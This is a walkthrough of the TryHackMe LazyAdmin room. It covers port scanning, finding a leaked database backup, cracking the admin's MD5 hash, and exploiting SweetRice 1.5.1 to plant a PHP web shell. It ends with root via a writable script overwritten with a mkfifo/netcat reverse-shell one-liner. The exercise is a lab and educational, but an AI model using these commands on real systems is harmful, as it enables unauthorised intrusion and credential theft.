





In this article you will find step-by-step instructions to solve the LazyAdmin challenge on TryHackMe platform (https://tryhackme.com/r/room/lazyadmin).

## Introduction

*I will use the prefix “T.Q” in titles: “T” for Task and “Q” for Question. E.g. T1.Q1 means that it is Task 1, Question 1.*

*I will also attach screenshot to each step till I find the solution. The answers in the most of the screenshots will be hidden with a red line.*

So, let’s start!

## Solutions

### T1. What is the user flag?

I will start from scanning open ports on the target machine. Let’s nmap it!

> sudo nmap -sS -p- 10.10.218.93

Let me quickly explain what we did here:

- -sS flag performs a TCP SYN scan. This type of scan requires root privileges, which is why we use sudo before the command.
- -p- flag scans all the ports.

Hmm. Let's see if we can determine the service or version info from those ports. I will check the port 22 first.

Now, let's see what we have in port 80.

I think we have enough information for now. Since Apache server is running here, let's see what we have on this address.

Ok. Let's see if we have any more directories. I will use **dirbuster** for that. Let's enter **Target URL** and **File with list of dirs/files** and hit **Start** button.

Let's see what it found after a few minutes.

I will go to /content directory now.

It is the first time I hear about this SweetRice thing. Let's check another directory, for example /content/images.

Now, /content/inc directory.

So, apparently someone forgot the database backup here. Let's see what we have inside.

Let's download and inspect the file.

Let's have a closer look to the line 79.

May be even closer.

Let's check the passwd field's value. I will use hash identifier for that.

Let's try to decode it. I will use md5hashing.net page for that.

So admin is "manager", password is "Password123". But where is the login page? I will try to scan subdirectories under /content directory.

So we have two new subdirectories: /content/as and /content/_themes.

Let's check /content/as first.

We reached the login page! Before we try using the credentials we had already, let's see the /content/_themes directory.

Let's go even deeper.

Let's check the theme.config file.

Since I could not find anything in this directory, I go back to the login page and use the credentials I found.

From what I see, the app is using the version 1.5.1. Let's check if there are any exploits on exploit-db.

Okay, so I want to try to execute a code in this server. Let's check the Cross-Site Request Forgery/ PHP Code Execution vulnerability.

Let' try it.

Let's go to /inc/ads/hacked.php file.

So let's try to have a reverse shell may be? In this link I found a simple PHP web shell.

Let's try to perform it.

Now, let's go to /content/inc/ads/shell.php?cmd=id directory.

Let's run "ls /home" command. So, the URL will look like this:

> http://[target]/content/inc/ads/shell.php?cmd=ls%20/home

Let's see what we can find in home directory of our friend, **itguy**.

I think user.txt is the file which contains the user flag.

We have the user flag.

### T1.Q2. What is the root flag?

I wanna start from displaying the content of the **mysql_login.txt** file. The URL is as follows:

> http://[target]/content/inc/ads/shell.php?cmd=cat%20/home/itguy/mysql_login.txt

Also I wanna see the permissions of backup.pl file. I run the following command:

> http://[target]/content/inc/ads/shell.php?cmd=ls%20-la%20/home/itguy/backup.pl

Great! The file has root permissions. So what is inside this file?

And what do I have inside /etc/copy.sh?

And what are the permissions of /etc/copy.sh file?

Well, the file can be written by me :O That's awesome!
Okay. I think it is high time I start a reverse shell. I use revshells.com page to generate myself one. I choose PHP PentestMonkey, enter my IP and the port number i will listen to.

After adding this ads namely "revshell",I run the following command to listen to port 9001.

> nc -lvnp 9001

Then I go to the following address:

> http://[target]/content/inc/ads/revshell.php

So, I have an access to the server through terminal now. What next? Let's check what binaries can be executed using SUDO.

Okay, so according to the all info gathered, I know that:
1. I can execute perl script as an admin with no password needed,
2. backup.pl is executing /etc/copy.sh file, which also has root privileges,
3. I can read and write the /etc/copy.sh file, so, all I need to do is to replace IP with mine and start listening to the port given in this file.

So the content of the /etc/copy.sh file should be as the following:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [my IP] 5554 >/tmp/f

Then, I should start listening to port 5554:

Since everything is ready, I should execute the backup.pl script now as admin and have the reverse shell:

But am I really root now? Let's check it.

That's it. Now I will just check the root directory and most probably find the root flag there.

Flag it is!

## Conclusion

That was an easy but (at least for me) time consuming challenge. Taking into consideration the number of vulnerabilities in this version of SweetRice, I guess there might be different ways to complete this challenge.

Thank you for reading my article, and see you in another room!